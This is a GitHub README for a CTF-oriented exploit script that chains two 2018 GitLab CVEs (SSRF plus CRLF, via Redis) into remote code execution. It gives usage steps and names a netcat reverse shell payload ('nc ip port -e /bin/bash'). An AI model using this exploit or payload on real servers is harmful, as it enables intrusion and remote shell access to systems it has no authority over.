 # Gitlab RCE - Remote Code Execution
RCE for old gitlab version &lt;= 11.4.7

This an exploit for old Gitlab versions. The vulnerability is from 2018 so this shouldnt work in the wild but it still seems to be popular in CTFs. 
Educational use only. Illegal things are illegal.

CVEs: CVE-2018-19571 (SSRF) + CVE-2018-19585 (CRLF)

credits: 

  https://www.youtube.com/watch?v=LrLJuyAdoAg - LiveOverflow  
  https://github.com/jas502n/gitlab-SSRF-redis-RCE - jas502n
  
usage:

  python gitlab_rce.py target-url(http://gitlab:port) local-ip
  
  You might or might not have to tweak this a bit. For example the redis port (6379) might be different for your target or you might want to change the payload "nc ip port -e /bin/bash" might only work in some CTFs - I would have used a more common reverse shell but the characters mess with encoding. 

THERE ARE ABSOLUTELY !!NO!! CHECKS OR ERROR HANDLING! 
